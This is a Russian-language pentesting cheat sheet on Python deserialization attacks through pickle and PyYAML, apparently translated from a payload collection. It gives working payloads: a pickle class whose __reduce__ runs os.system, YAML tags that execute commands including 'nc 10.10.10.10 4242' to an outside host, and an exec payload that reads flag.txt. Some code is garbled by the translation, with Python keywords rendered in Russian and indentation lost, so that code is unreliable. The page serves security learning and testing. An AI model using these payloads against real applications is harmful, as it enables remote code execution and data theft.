 * [Десериализация Python](#Десериализация-Python)
* [Инструменты](#Инструменты)
* [Методология](#Методология)
  * [Pickle](#Pickle)
  * [PyYAML](#PyYAML)
* [URL](#URL)

# Десериализация Python

> Десериализация Python — это процесс восстановления объектов Python из сериализованных данных, обычно выполняемый с использованием таких форматов, как JSON, pickle или YAML.
>> Модуль pickle — часто используемый инструмент в Python для этой цели, поскольку он может сериализовать и десериализовать сложные объекты Python, включая пользовательские классы.

# Инструменты

j0lt-github/python-deserialization-attack-payload-generator — Сериализованная полезная нагрузка для RCE-атаки на десериализацию на приложения Python, где для десериализации сериализованных данных используются модули pickle, PyYAML, ruamel.yaml или jsonpickle.

# Методология

**В исходном коде Python найдите следующие приёмники:**

* cPickle.loads
* pickle.loads
* _pickle.loads
* jsonpickle.decode

### Pickle

Следующий код — это простой пример использования cPickle для генерации auth_token, представляющего собой сериализованный объект User. :warning: import cPickle будет работать только на Python 2
```python
import cPickle
from base64 import b64encode, b64decode

class User:
def __init__(self):
self.username = "anonymous"
self.password = "anonymous"
self.rank = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Ваш токен авторизации: {}").format(auth_token)
```

Уязвимость возникает при загрузке токена из пользовательского ввода.

```python
new_token = raw_input("Новый токен авторизации: ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```
> Модуль pickle не защищён от ошибочных или вредоносных данных.

```python
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
def __reduce__(self):
return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Ваш токен Evil : {}").format(evil_token)
```

### PyYAML

> Десериализация YAML — это процесс преобразования данных в формате YAML обратно в объекты в таких языках программирования, как Python, Ruby или Java. YAML популярен для файлов конфигурации и сериализации данных, поскольку он удобен для чтения человеком и поддерживает сложные структуры данных.

```python
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```
```python
!!python/object/apply:subprocess.Popen
- ls
```
```python
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
state:
update: !!python/name:exec
```
Начиная с версии PyYaml 6.0, загрузчик по умолчанию для ```load``` был переключен на SafeLoader, что снижает риски удалённого выполнения кода. PR #420 - [Исправление](https://github.com/yaml/pyyaml/issues/420)

Уязвимыми приёмниками теперь являются ```yaml.unsafe_load``` и ```yaml.load(input, Loader=yaml.UnsafeLoader)```.

```python
с open('exploit_unsafeloader.yml') в качестве файла:
data = yaml.load(file,Loader=yaml.UnsafeLoader)
```


# URL

* [yaml](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)
* [yaml](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
* [MgicMethods](https://coderpad.io/blog/development/guide-to-python-magic-methods/)
